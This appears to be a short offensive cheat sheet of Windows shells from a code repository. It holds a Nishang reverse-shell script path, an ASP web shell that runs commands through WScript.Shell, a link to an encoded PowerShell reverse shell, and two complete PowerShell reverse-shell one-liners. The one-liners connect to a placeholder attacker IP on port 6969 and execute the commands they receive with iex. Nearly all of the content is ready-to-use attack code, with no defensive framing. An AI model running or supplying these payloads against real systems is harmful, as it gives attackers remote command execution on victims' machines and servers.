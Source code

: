# windows shells

Nishang: `/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1`

## ASP

```aspnet
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

## [Powershell encoded revshell](https://gist.github.com/tothi/ab288fb523a4b32b51a53e542d40fe58)

## Powershell one-liners

```bash
# oneliner_1
$client = New-Object System.Net.Sockets.TCPClient("<IP>",6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# oneliner_2
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
